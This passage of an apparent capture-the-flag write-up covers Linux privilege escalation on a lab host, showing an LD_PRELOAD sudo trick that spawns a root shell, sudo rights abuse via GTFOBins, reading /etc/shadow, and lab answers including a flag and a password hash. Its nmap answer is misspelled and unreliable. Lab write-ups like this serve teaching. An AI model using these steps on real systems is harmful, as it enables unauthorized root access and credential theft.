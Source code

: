 ```

We need to run the program by specifying the LD_PRELOAD option, as follows;


```
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```

This will result in a shell spawn with root privileges.

![img](/assets/img/lpe25.png)

---

1. How many programs can the user "karen" run on the target system with sudo rights? 

   Answer: 3

```
id
```

uid=1001(karen) gid=1001(karen) groups=1001(karen)

```
sudo -l
```

```
User karen may run the following commands on ip-10-10-131-208:
    
    (ALL) NOPASSWD: /usr/bin/find
    (ALL) NOPASSWD: /usr/bin/less
    (ALL) NOPASSWD: /usr/bin/nano
```

---

2. What is the content of the flag2.txt file?

   Answer: THM-402028394

Step 1 - GTFOBins - privilege esclation on Karen - nano sudo right -

![img](/assets/img/lpe26.png)


---

3. How would you use Nmap to spawn a root shell if your user had sudo rights on nmap?

```
sudo --namp interactive
```


4. What is the hash of frank's password?

Answer: 6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH .joV14aDEwW1c3CahzB1uaqeLR1

```
cat /etc/shadow
```

![img](/assets/img/lpe27.png)
```